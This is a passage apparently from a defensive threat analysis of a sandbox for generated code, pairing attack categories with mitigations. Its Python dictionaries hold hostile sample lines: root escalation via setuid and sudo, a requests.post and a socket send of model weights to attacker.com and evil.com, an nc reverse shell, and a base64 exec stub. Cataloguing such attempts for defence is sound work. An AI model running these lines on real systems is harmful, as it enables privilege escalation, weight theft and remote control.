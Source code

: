 **Detection and Mitigation:**
- Bind mount restrictions preventing access outside /sandbox
- Read-only root filesystem blocking symlink creation
- AppArmor policies denying sensitive file access

**Forensic Analysis:**
- Log analysis of failed access attempts
- Pattern recognition for automated detection
- Attribution to specific code generation patterns

### 2.3 Privilege Escalation Attempts
```python
privilege_escalation_techniques = {
    'setuid_exploitation': [
        "os.setuid(0)  # Attempt to become root",
        "os.system('sudo -i')",
    ],
    'capability_abuse': [
        "import ctypes; ctypes.CDLL('libc.so.6').setuid(0)",
        "# Attempt to load kernel modules",
    ],
    'container_breakout': [
        "# CVE-2019-5736 runc exploit attempt",
        "# Dirty COW exploitation",
    ]
}
```

**Multi-Layer Defenses:**
- CAP_DROP ALL removing all Linux capabilities
- seccomp blocking setuid/setgid syscalls
- runAsNonRoot rejecting containers attempting root execution
- Kernel exploit mitigation (KASLR, SMEP, SMAP)

### 2.4 Network Exfiltration Attempts
```python
exfiltration_attempts = {
    'data_theft': [
        "import requests; requests.post('http://attacker.com', data=open('/models/cet_weights.pt').read())",
        "import socket; s=socket.socket(); s.connect(('evil.com',1337)); s.send(model_data)",
    ],
    'reverse_shells': [
        "import os; os.system('nc -e /bin/sh attacker.com 4444')",
        "exec(__import__('base64').b64decode('base64_encoded_shell'))",
    ],
    'dns_tunneling': [
        "# Attempting to exfiltrate via DNS queries",
    ]
}
```

**Network Isolation Enforcement:**
- network_mode: none (no network namespace)
- iptables DROP all traffic
- Monitoring for any network activity (should be zero)
